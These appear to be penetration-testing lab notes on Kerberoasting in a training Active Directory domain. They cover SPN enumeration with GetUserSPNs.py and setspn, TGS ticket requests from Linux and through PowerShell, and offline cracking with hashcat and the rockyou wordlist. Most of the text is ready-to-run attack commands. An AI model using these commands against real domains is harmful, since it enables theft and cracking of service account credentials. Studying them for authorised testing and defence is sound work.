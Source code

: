 ## GetUserSPNs.py

Listing SPN Accounts with GetUserSPNs.py

```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

Requesting all TGS Tickets

```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request 
```

Requesting a Single TGS ticket

```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev
```

Saving the TGS Ticket to an Output File

```shell
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

Cracking the Ticket Offline with Hashcat

```shell
hashcat -m 13100 sqldev_tgs /usr/share/wordlists/rockyou.txt 
```

# Kerberoasting - from Windows

## setspn.exe (old style)

Enumerating SPNs with setspn.exe

```shell
setspn.exe -Q */*
```

Targeting a Single User

```powershell
Add-Type -AssemblyName System.IdentityModel
```

```powershell
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
```

- The [Add-Type](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/add-type?view=powershell-7.2) cmdlet is used to add a .NET framework class to our PowerShell session, which can then be instantiated like any .NET framework object
- The `-AssemblyName` parameter allows us to specify an assembly that contains types that we are interested in using
- [System.IdentityModel](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8) is a namespace that contains different classes for building security token services
- We'll then use the [New-Object](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.utility/new-object?view=powershell-7.2) cmdlet to create an instance of a .NET Framework object
- We'll use the [System.IdentityModel.Tokens](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens?view=netframework-4.8) namespace with the [KerberosRequestorSecurityToken](https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel.tokens.kerberosrequestorsecuritytoken?view=netframework-4.8) class to create a security token and pass the SPN name to the class to request a Kerberos TGS ticket for the target account in our current logon session
